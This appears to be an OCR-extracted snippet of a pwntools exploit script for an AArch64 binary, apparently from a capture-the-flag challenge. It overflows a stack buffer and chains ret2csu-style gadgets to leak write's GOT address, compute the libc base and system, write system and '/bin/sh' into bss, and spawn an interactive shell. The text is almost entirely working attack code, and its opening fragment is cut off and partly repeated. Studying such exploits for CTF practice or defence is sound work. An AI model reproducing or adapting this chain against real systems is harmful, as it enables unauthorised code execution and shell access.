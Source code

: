 ```bash
    pl += p64(1)    #x20 --0


    pl += p64(read_addr)    #x21 --addr
    pl += p64(0)        #x22 --x0


    pl += p64(bss+0x100)    #x23 --x1
    pl += p64(0x40) #x24 --x2

    pl += p64(0xdeadbeef)   #x29
    pl += p64(main) #x30

g1 = 0x400810
g2 = 0x4007F0
main = 0x40076c
bss1 = 0x0411140 #bss+0x100


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) #main , 0x100000000
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['write']) + p64(1) ##x21 --addr  x22 --x0
pl+= p64(elf.got['write']) + p64(0x8) #x23 --x1  x24 --x2
pl+= p64(0) +p64(main) #x29   x30

p.sendlineafter('Hello, World\n',pl)


write_addr = uu64(r(6))
li('write_addr'+hex(write_addr))
libcbase = write_addr - libc.sym['write']
li('libcbase'+hex(libcbase))
system = libcbase + libc.sym['system']
li('system'+hex(system))


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['read']) + p64(0) #x21 --addr  x22 --x0
pl+= p64(bss1) + p64(0x20) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30

p.sendlineafter('Hello, World\n',pl)

p.sendline(p64(system)+b'/bin/sh\x00')


pl = b'a'*0x88 + p64(g1) 
pl+= p64(7) + p64(7) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(bss1) + p64(bss1+8) #x21 --addr  x22 --x0
pl+= p64(0) + p64(0) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
p.sendlineafter('Hello, World\n',pl)

p.interactive()
```
